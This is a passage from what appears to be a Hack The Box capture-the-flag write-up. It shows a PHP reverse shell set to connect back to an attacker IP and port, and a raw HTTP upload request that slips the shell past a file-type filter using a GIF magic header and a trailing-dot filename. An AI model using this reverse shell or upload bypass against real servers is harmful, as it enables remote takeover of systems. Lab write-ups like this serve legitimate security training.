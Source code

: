 I modified it to my needs and added a `.jpg` to the `extension`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ tail php_reverse_shell.php.jpg 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.16.12', 9001);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ mv php_reverse_shell.php php_reverse_shell.php.jpg
```

For the `upload part` I `repeated` the `procedure` to drop the `reverse shell` to the box.

```shell
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 9743
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA16XmwIlgCRyFsnT
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IklrYXZiMDV3RHY0T0dRcmtKTlNnZ0E9PSIsInZhbHVlIjoiL0JLV0ZtbnRSeERuYlZQbkdzcjhJR1FkK0hBYU9yTk82QUsxQUJuUDZiczRORDhON2dLbmJwaGl6bXhJMDN3ZjNIT3VPR0QySEh3aVFYYTZwQUF0c1ZrUU54WnMvMTFoT0tObkx4U2JKbGRDUE44dWFObERBV3ZQNVFOdGZOaGkiLCJtYWMiOiIwNDZhNTUxYTM5NzE1NTc0NDk2YTU1YzZiNGY0YzkwOTUxM2E1Zjc5NzM0NzYwYmY5NTc3YWJiZmY2MjhmOWJhIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkNIVzNoQUFGNkNFNWVVVUZWZWsra0E9PSIsInZhbHVlIjoiUUxRQXFQb2ZkelRKVjdyYTJBVTJQQlgxNktubmVQSTJPVGF1ZElJMFF0bUlHVjBza2J0aWFTYmFwdGJFanlDbjVja1ZnbU5YenZUKzdSUERKMHR6ejI0bS9mRVJSdVFRZ2dOdkVlbVZ1bVpyWGkvUGJEUGQ2eXY0bWpuS00va0QiLCJtYWMiOiI1YjUyMjU5YWY0MjU1NTc0ZGJkNTRjYzVlZmFjYmVhZjJlN2M1YzIxOTUxMGY4YmQ4MTBkYmRiYWI5M2YwODNjIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryA16XmwIlgCRyFsnT
Content-Disposition: form-data; name="_token"

Vv6nlKZcvkC0uiLuuUwsCGdfX9j6Z2DtDpFNGpqL
------WebKitFormBoundaryA16XmwIlgCRyFsnT
Content-Disposition: form-data; name="upload"; filename="php_reverse_shell.php."
Content-Type: image/gif

GIF89a
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.6
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
```